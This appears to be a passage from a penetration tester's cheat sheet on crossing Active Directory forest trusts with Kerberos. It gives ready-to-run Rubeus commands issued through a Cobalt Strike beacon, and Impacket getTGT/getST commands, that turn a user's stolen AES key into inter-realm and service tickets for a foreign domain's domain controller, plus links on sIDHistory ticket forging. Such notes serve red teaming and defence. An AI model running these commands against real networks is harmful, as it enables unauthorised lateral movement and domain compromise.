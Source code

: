 

## Request a Foreign User TGT with Rubeus

Having just an RC4/AES keys of a user in target forest (that's a foreign user in target domain, but a native user in current domain), we can request Kerberos tickets manually with Rubeus.

Request TGT for that user in current domain:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /opsec /nowrap
```

Request inter-realm TGT from current domain to the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:krbtgt/megacorp.external /domain:megacorp.local /dc:DC1.megacorp.local /ticket:<BASE64_TICKET> /nowrap
```

Use inter-realm TGT to request a TGS in the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:cifs/DC1.megacorp.external /domain:megacorp.external /dc:DC1.megacorp.external /ticket:<BASE64_TICKET> /nowrap
```

This [PR](https://github.com/fortra/impacket/pull/1431) helps to use such tickets with Impacket.




## Request an Inter-Realm TGT with Impacket

Request a TGT in current domain:

```
$ getTGT.py -aesKey <AES_KEY> megacorp.local/snovvcrash -dc-ip 192.168.1.11
```

Request an IR TGT for the foreign domain in current domain:

```
$ KRB5CCNAME=snovvcrash.ccache getST.py -spn 'krbtgt/MEGACORP.EXTERNAL' -k -no-pass megacorp.local/snovvcrash -dc-ip 192.168.1.11 -debug
```

Request an ST in foreign domain:

```
$ KRB5CCNAME=snovvcrash_megacorp_external.ccache getST.py -spn 'ldap/DC01.MEGACORP.EXTERNAL' -k -no-pass megacorp.external/snovvcrash -dc-ip 192.168.1.22 -debug
```




## sIDHistory/ExtraSids Hopping

- [https://improsec.com/tech-blog/o83i79jgzk65bbwn1fwib1ela0rl2d](https://improsec.com/tech-blog/o83i79jgzk65bbwn1fwib1ela0rl2d)
- [https://www.thehacker.recipes/a-d/movement/trusts#forging-tickets](https://www.thehacker.recipes/a-d/movement/trusts#forging-tickets)
